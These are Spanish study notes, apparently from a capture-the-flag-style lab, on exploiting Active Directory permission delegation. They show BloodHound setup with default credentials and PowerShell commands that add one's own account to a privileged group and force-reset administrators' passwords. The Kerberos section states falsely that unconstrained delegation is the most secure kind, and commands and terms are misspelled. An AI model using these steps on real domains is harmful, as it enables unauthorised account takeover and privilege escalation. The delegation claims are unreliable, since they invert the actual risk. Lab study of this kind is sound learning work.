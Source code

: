 # Explotar AD

# Objetivos de aprendizaje

- Delegación AD
- Forzar reglas de autentificación
- GPO
- Usuarios de AD como targets
- Confianzas de dominios
- Tickets de plata y oro

# Explotar delegación de permisos

AD puede delegar permisos y privilegios con una herramienta llamada "delegación de permisos" (no confundamos con la delegacoón de Kerberos)

Esto es muy importante. Imagina que tienes 5000 empleados y te preocupa la seguridad, hay 3 usuarios con credencailes de mierda. Es posible que esos 3 usuarios le manden consultas, para resetear la contraseña. Usando Delegacion podemos forzar a cambiar dicha contraseña.

## Delegación de permisos

El exploit de delgación de permisos se refiere a ataques ACK. El administrador configura un acceso de control ACEs en la pulares ACLS.

Sin embargo, estas ACLS pueden estar mal configurados, dando un ataque posible. Como ejemplo. Imagina el equipo de IT tene la ACL de Cambiar la contraseña al grupo de dominio, esto se considera inseguro. Ya que los mismos usuarios estan permitidos para cambiar contraseña.

## EXplotar ACEs

- Cambiar contraseñas
- Añadir miembros
- GenericALL
- GenericWrite
- WriteOwener
- WriteDACL
- AllextendedRights

# Bloodhound

```
thm@thm:~# neo4j console start
Active database: graph.db
Directories in use:
  home:         /var/lib/neo4j
  config:       /etc/neo4j
  logs:         /var/log/neo4j
  plugins:      /var/lib/neo4j/plugins
  import:       /var/lib/neo4j/import
  data:         /var/lib/neo4j/data
  certificates: /var/lib/neo4j/certificates
  run:          /var/run/neo4j
Starting Neo4j.
[....]
2022-03-13 19:59:18.014+0000 INFO  Bolt enabled on 127.0.0.1:7687.
```
En otro terminar pues abrimos dicho programa
```
bloodhoun --no-sandbox
```

neo4j:neo4j

## Escala de privilegios

![image](https://github.com/user-attachments/assets/2d9432e2-d092-44be-a9e7-8acd21e48299)

![image](https://github.com/user-attachments/assets/aa276db4-8e5d-436b-b269-69e2aec13441)

Vemos una ruta muy interesante. Tenemos una delegación de permisos en este dominio. EL administrador ha dado el permiso AddMembers a "Users Groups" los miembros de este grupo tienen dicho permiso, tambien vemos que el grupo de IT tiene el cambiar de contraseñas. Esto no es una mala configuración porque tiene sentido

## Añadir Miembros

EL primer paso de la ruta de la cuenta de AD en el grupo de IT. Podemos ver los grrupos que tienen dicho permiso

```
PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
```

Podemos verificar el comando usando el Get-ADGroupMember

```
PS C:\>Get-ADGroupMember -Identity "IT Support"
distinguishedName : CN=hugh.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
name              : hugh.jones
objectClass       : user
objectGUID        : 460178d3-c818-4e28-9a39-b1ab2b0d3779
SamAccountName    : hugh.jones
SID               : S-1-5-21-3885271727-2693558621-2658995185-1113
```

## Forzar cambiar contraseña

Ahora que somos miembros del grupo de IT, podemos delegar este tipo de permiso

```
PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins"
distinguishedName : CN=t2_lawrence.lewis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_lawrence.lewis
objectClass       : user
objectGUID        : 4ca61b47-93c8-44d2-987d-eca30c69d828
SamAccountName    : t2_lawrence.lewis
SID               : S-1-5-21-3885271727-2693558621-2658995185-1893

[....]

distinguishedName : CN=t2_leon.francis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_leon.francis
objectClass       : user
objectGUID        : 854b6d40-d537-4986-b586-c40950e0d5f9
SamAccountName    : t2_leon.francis
SID               : S-1-5-21-3885271727-2693558621-2658995185-3660
```

Ahora que tenemos los usuarios y sus cuentas. podemos forzar el cambio de contraseña

```
PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password
```

Para actualizar dichas directivas

```
gpudate /force
```

# Explotar Delegación Kerberos

Kerberos esta activada para acceder a los recursos hosteador en un servidor diferente. Por ejemplo tenemos acceso a la base de datos hosteada. Sin la delegación, probablemente el servicio de AD de las cuentas de acceso directo a la base de datos. CUando se hace una consulta, el servicio autentifica a la base de datos y devuelve la información

Sin embargo, si estas en una cuenta que tenga dicha delegación de servicio de SQL. No sera necesario logearse en la aplicacion web sel servicio. 

## Restricciones y no restricciones

Hay dos tipos de delegación en Kerberos, la implementación original, es la delegación sin restricción, el metodo mas seguro. En esencia, no limita la delegación y por detras el usuario tiene una delegación asegurada, las autentificaciónes del host sin la restricción se pueden configurar, como un ticket TGT para la cuenta y se genra en la memoria hasta que se necesite

Si un atacante quiere comprometer con no restrictivo, en este caso habria que forzar privilegios de la cuenta, e interceptar dicho ticket TGT

En restricción usualmente es mucho mas fácil simplemente podemos hacer lo que queramos. Podemos genertar TGT para la cuenta, podemos ejecutar, etc.

## Restricción basada en delegaciones

Aquí tenemos 3 tipos. 
